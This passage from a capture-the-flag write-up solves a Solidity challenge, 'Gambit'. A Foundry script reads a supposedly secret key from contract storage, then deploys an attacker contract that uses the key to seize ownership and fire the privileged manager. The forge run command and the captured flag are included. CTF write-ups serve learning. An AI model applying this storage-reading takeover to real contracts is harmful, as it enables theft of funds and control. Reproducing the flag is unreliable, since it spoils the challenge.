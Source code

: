 **Mitigation**

Don't Send or Store Sensitive data On Chain

**Solve.s.sol**

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {Setup, ChallengeManager, Privileged} from "../../src/Gambit/Setup.sol";
import {Script,console} from "forge-std/Script.sol";

contract Solve is Script {
    Setup chall = Setup(0x09e946A9CDe77B622D68cDf1e660F7cd6F82C966);
    ChallengeManager challengeManager;
    bytes32 key;
    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY")); 
        challengeManager = chall.challengeManager();
        key = vm.load(address(challengeManager), bytes32(uint256(1)));
        new Challenger1{value: 7 ether}(address(challengeManager), key, address(chall));
    }
}

contract Challenger1 {
    ChallengeManager public challengeManager;

    constructor(address _target, bytes32 key, address chall) payable{
        uint256 gocha = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp))) % 4;
        challengeManager = ChallengeManager(_target);
        challengeManager.approach{value: 5 ether}();
        challengeManager.upgradeChallengerAttribute(3, 2);
        challengeManager.upgradeChallengerAttribute(3, 2);
        challengeManager.upgradeChallengerAttribute(3, 2);
        challengeManager.upgradeChallengerAttribute(3, 2);

        Privileged priv = Setup(chall).privileged();

        challengeManager.challengeCurrentOwner(key);
        priv.fireManager();
        console.log("Solved#", Setup(chall).isSolved());
    }
}
```

```bash
forge script script/Solve.s.sol:Solve --rpc-url $RPC_URL 
```

**Flag#** TCP1P{is_it_really_a_gambit_tho_its_not_that_hard}

---

## Minecraft huh
